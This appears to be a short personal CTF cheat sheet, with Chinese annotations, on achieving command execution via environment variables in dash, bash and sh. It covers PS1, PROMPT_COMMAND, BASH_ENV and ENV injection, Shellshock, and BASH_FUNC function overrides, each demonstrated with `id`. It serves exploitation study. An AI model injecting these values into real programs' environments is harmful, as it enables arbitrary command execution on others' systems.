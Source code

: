 tags:: CTFWEB/RCE, CTFWEB/Shell

-
- # dash
	- ```shell
	  PS4='PS4 is worked $HOME Right?' dash -x -c "echo test"
	  PS1='`id`' dash
	  PS1='$(id)' dash
	  PROMPT_COMMAND='id' dash #退出dash的时候会执行
	  ```
- # bash
  id:: 64bbf5e5-6ddf-4ff6-9d7f-ba6bc9d95262
	- ```shell
	  BASH_ENV='$(id 1>&2)' bash -c 'echo hello'# shell_name为bash时触发
	  PROMPT_COMMAND='id' bash	#立即执行,因为每次换行后会换到一个新的bashshell
	  ```
	- shell shock
		- ```shell
		  TEST=() { :; }; id;
		  ```
	- `BASH_FUNC`
		- 原理
			- bash可以这样设置函数
				- ```shell
				  env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'
				  ```
			- 我们可以覆盖某些函数实现任意命令执行
				- ```shell
				  env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
				  ```
		- bash 4.2
			- ```shell
			  env $'BASH_FUNC_echo()=() { id; }' bash -c "echo hello"
			  ```
		- bash 4.4+
			- ```shell
			  env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
			  ```
	- sh兼容模式
		- ```shell
		  ENV='$(id 1>&2)' sh -i -c "echo hello"
		  ```
-
- # 参考
	- https://www.cnblogs.com/h0cksr/p/16189733.html
	-